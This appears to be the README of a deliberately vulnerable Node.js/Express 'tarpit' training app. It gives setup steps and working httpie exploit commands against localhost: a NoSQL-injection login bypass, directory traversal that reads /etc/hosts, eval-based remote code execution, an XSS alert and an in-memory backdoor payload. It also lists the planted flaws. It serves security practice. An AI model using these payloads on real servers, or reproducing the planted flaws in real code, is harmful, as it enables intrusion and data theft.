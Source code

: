 # NodeJS Tarpit as

An ExpressJS (tarpit) application using mongoDB.

I am using [httpie](https://httpie.org), an alternative to curl to trigger exploits.

## Getting started

:crossed_fingers::crossed_fingers::crossed_fingers: I hope all goes as smooth as possible

### Pre-requisites (Running without docker)

- [NodeJS](https://nodejs.org/en/) Get the latest version
- [MongoDB Community Edition](https://docs.mongodb.com/manual/administration/install-community/) Install Mongodb Community Edition and run setup provided in documentation

### Pre-requisites (Running with docker)

- Docker
- Run the command `make start`

### Setup (if not using docker)

start mongoDB server (`sudo mongod`)
start mongoDB client (`mongo`)
Insert user rows using the query

```bash
node db-init.js
```

### Installation (if not using docker)

Run `npm install` to install all dependencies for the project to run

### Run Application (if not using docker)

Run `npm run server` to start the application and you will provided a local address to open in browser

## Exploits

### No SQL Injection

Login can be exploited with the following query as the username and password are not validated

```bash
http  --print=HB POST http://localhost:8089/api/v1/login username:='{"$gt": ""}' password:='{"$gt": ""}'
```

### Directory Traversal Vulnerability

Can get access to any file on the server using the command

```bash
http GET http://localhost:8089/api/v1/image-lookup image=="/etc/hosts"
```

### Remote Code Execution

RCE exploting `eval` on server

```bash
http GET http://localhost:8089/user-input userInput=="console.log(process.env)"
```

Injecting script onto user browser

```bash
http GET http://localhost:8089/user-input userInput=="alert('You system is under our control now.')"
```

Can exploit the whole server by injecting something like the code below (https://medium.com/lift-security/in-memory-backdoor-for-node-js-express-apps-2a3f4301925b)

```bash
http GET http://localhost:8089/user-input userInput=="res.cookie('appLocals',JSON.stringify(req.app.locals))"
```

## Vulnerabilities

- [x] [directory traversal](src/Controllers/ImageLookup.js#L9)
- [x] [nosql injection](src/Controllers/Login.js#L33...L36)
- [x] [remote code execution](src/views.js#L19): [UserInput](src/Views/UserInput.pug#L6)
- [x] [sensitive data leak](src/Controllers/Login.js#L47)
- [x] [insider attack](src/server.js#L22...L31)
- [x] [business logic flaw](src/Controllers/Order.js#L69...L79)
- [x] [business logic flaw](src/Controllers/Order.js#L100...L110)
- [x] [hard coded credentials](src/Controllers/Order.js#L55...L63)

